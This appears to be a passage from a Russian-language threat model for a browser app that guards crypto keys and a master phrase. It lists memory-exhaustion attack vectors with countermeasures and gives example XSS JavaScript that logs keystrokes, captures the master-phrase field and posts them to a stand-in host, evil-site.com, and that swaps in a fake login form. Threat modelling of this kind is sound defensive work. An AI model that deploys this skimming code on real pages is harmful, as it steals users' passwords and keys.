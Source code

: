 
### 💾 **Memory Exhaustion для принудительной очистки ключей** ⚠️ **КРИТИЧЕСКИ ВАЖНО**
**Цель:** Заставить систему очистить crypto keys из памяти преждевременно

#### Векторы атак:
- **Heap spraying атаки**
  - Заполнение heap большим количеством объектов
  - Forcing garbage collection для очистки crypto keys
  - Out-of-memory conditions для trigger emergency cleanup

- **WebAssembly memory exhaustion**
  - Excessive WASM memory allocation
  - Linear memory growth до system limits
  - Forced WASM instance termination с crypto state

- **SharedArrayBuffer exhaustion**
  - Allocation больших shared buffers
  - Cross-origin memory pressure
  - Browser tab isolation bypass через memory pressure

- **Crypto object flooding**
  - Создание множества crypto keys до memory limit
  - Forcing key eviction из secure memory areas
  - Cache pollution attacks на crypto key storage

#### 🛡️ Защитные меры:
```
✅ Memory limits и quotas для crypto operations
✅ Secure memory allocation с guaranteed cleanup
✅ Key lifetime management независимо от memory pressure
✅ Priority-based memory allocation для crypto keys
✅ Memory monitoring и alerting
```

---

### 🕷️ Атака: Перехват мастер-фразы через XSS
**Цель:** Получить мастер-фразу в момент ввода пользователем

#### Векторы атак:
```javascript
// Пример malicious кода, внедренного через XSS
document.addEventListener('keydown', function(e) {
    // Логирует все нажатия клавиш при вводе фразы
    fetch('https://evil-site.com/collect', {
        method: 'POST',
        body: JSON.stringify({key: e.key, target: e.target.id})
    });
});

// Перехват содержимого input полей
document.querySelector('#master-phrase').addEventListener('input', function(e) {
    // Отправляет содержимое по мере ввода
    fetch('https://evil-site.com/phrase', {
        method: 'POST', 
        body: e.target.value
    });
});

// Подмена формы входа
const realForm = document.querySelector('#login-form');
const fakeForm = realForm.cloneNode(true);
fakeForm.addEventListener('submit', stealCredentials);
realForm.parentNode.replaceChild(fakeForm, realForm);
```